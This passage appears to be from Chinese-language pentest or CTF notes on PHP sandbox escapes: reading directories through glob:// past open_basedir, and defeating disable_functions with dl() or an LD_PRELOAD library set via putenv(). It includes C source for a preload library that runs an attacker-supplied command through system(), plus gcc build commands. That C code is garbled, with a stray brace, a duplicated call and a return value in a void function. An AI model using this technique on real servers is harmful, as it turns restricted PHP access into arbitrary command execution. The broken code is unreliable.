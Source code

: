> glob是用来筛选目录的伪协议，筛选时不受`open_basedir`制约 

```php
if ( $b = opendir("glob:///var/www/html/*.php") ) {while ( ($file = readdir($b)) !== false ) {echo "filename:".$file."\n";}closedir($b);}
```

更多方法参见[P牛的博客](https://www.leavesongs.com/PHP/php-bypass-open-basedir-list-directory.html)

# 绕过disable_fuction

### **利用DL()函数**

dl( ) 函数允许在php脚本里动态加载php模块，默认是加载extension_dir目录里的扩展

该选项是PHP_INI_SYSTEM范围可修改的，只能在php.ini或者apache主配置文件里修改。

也可以通过enable_dl选项来关闭动态加载功能，而这个选项默认为On的

可以用`../`这种目录遍历的方式指定加载任何一个目录里的so等扩展文件

所以我们可以上传自己的so文件，并且用dl函数加载这个so文件执行命令



### **LD_PRELOAD 环境变量**

LD_PRELOAD 是Linux的环境变量，它允许定义在程序运行前优先加载的动态链接库 

在php中，可使用putenv()函数设置LD_PRELOAD环境变量来加载指定的so文件

so文件中包含自定义函数进行劫持从而达到执行恶意命令的目的。

```c
//bypass_disablefuc.c
#define _GNU_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
extern char** environ;
__attribute__ ((__constructor__)) void preload (void)
{
    const char* cmdline = getenv("EVIL_CMDLINE");
    if (getenv("LD_PRELOAD") == NULL) { return 0; }
    unsetenv("LD_PRELOAD");
    system(cmdline);
    }
    system(cmdline);
}

//编译成动态链接库
gcc -shared -fPIC bypass_disablefuc.c -o bypass_disablefunc_x64.so
    
//若目标为 x86 架构，需要加上 -m32
gcc -shared -fPIC bypass_disablefuc.c -m32 -o bypass_disablefunc_x32.so
```
